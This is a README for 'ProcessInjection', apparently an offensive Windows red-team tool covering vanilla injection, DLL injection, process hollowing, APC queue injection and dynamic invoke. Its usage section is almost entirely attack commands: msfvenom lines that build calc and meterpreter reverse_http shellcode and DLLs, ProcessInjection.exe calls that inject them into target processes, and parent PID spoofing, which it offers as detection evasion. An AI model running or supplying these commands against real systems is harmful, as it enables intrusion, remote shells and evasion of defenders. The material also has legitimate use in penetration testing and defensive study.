 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 4 process injection techniques.

	1) Vanila Process Injection
	2) DLL Injection
	3) Process Hollowing
	4) APC Queue
	5) Vanula Process Injection (Dynamic Invoke)

Vanila Process Injection
Currently the tool accepts shellcode in 3 formats.

	1) base64
	2) hex
	3) C

Supports 1 detection evading technique.

	1) Parent PID Spoofing
	

### Command Line Usage

	Generating shellcode in base64 format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" | base64
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:base64 /t:1

	Generating shellcode in hex format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f hex
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:hex /t:1

	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f c
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:c /t:1

	DLL Injection
	Generating DLL and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f dll > Desktop/calc.dll
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\calc.dll" /t:2
	
	Process Hollowing
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /f:c /t:3
	
	APC Queue
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /f:c /t:7

	Vanila Process Injection (Dynamic Invoke)
	All shellcode formats are supported
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f c
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:c /t:9

	Detection Evading Technique

	Parent PID Spoofing with Vanila Process Injection.
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /parentproc:explorer /f:c /t:4

	Parent PID Spoofing with DLL Injection.
	Generating DLL and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f dll > Desktop/reverse_shell.dll
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\reverse_shell.dll" /parentproc:explorer /t:5
	
	Parent PID Spoofing with Process Hollowing.
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /parentproc:explorer /f:c /t:6

	Parent PID Spoofing with APC Queue.
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /parentproc:explorer /f:c /t:8

	Parent PID Spoofing with Vanila Process Injection (Dynamic Invoke).
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /parentproc:explorer /f:c /t:10


### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)

[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)

[https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html](https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html)

[https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e](https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e)

[https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html](https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html)


### Contribution Credit

[Renos](https://twitter.com/r3n_hat)

[The Wover](https://twitter.com/TheRealWover) & [b33f](https://twitter.com/FuzzySec) for Dynamic Invoke - (https://thewover.github.io/Dynamic-Invoke/)

Credits also goes to [Aaron Bray](https://github.com/ambray) & [Rasta Mouse](https://twitter.com/_rastamouse) for Process Hollowing code
